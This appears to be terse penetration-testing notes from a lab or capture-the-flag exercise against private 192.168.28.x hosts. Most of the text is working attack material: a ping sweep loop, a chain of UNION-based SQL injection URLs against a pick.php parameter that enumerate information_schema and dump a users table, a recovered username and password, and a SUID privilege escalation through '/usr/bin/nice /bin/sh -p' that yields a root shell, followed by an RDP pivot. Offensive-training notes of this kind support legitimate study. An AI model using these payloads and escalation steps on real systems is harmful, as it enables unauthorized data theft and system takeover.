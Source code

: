 cat /etc/hosts

64 bytes from 192.168.28.172: icmp_seq=1 ttl=63 time=5.31 ms
64 bytes from 192.168.28.181: icmp_seq=1 ttl=63 time=0.703 ms



Target 2 .181
possible sql injection ( 3 columns )

http://192.168.28.181/pick.php?product=7 or 1=1 ( verify vuln )
http://192.168.28.181/pick.php?product=7 union select 1,2,3
http://192.168.28.181/pick.php?product=7 union select table_schema,2,3 from information_schema.columns
http://192.168.28.181/pick.php?product=7 union select table_schema,table_name,column_name from information_schema.columns
http://192.168.28.181/pick.php?product=7 union select user_id,name,username from siteusers.users


Aaron : apasswordyPa$$word

Linux priv

sudo -l		(gtfobins)
find / -perm /4000 2>/dev/null
/usr/bin/nice /bin/sh -p


for i in {2..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done
64 bytes from 192.168.28.179: icmp_seq=1 ttl=128 time=1.58 ms

xfreerdp /v:127.0.0.1:2222 /u:Lroth /size:1920x1000 +clipboard















